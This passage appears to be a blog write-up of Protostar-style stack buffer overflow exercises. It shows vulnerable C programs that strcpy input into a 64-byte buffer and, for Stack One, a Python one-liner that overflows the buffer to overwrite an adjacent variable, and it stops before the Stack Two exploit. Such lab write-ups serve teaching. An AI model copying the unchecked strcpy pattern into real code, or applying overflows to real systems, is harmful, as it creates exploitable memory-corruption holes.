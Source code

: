   if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
{% endhighlight %}

Vulnerabiliy
This time the application takes input as an argument, it then string copies the argument into a limited buffer. The modified check this time is actually checking values on the stack to equal 'abcd'.

Exploit:
{% highlight bash %}
./stack1 $(python -c "print 'a'*64 + 'dcba'"
# First set of 'a's fills the buffer
# Then the 'dcba' is written over the variable (endian conversion)
{% endhighlight %}
# Stack Two
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
{% endhighlight %}
Vulnerability
This time the application isnt taking direct input through args or stdin, but through an environment variable. Again the program is checking if a modified variable contains a string we have to plant on the stack.
Exploit:
{% highlight bash %}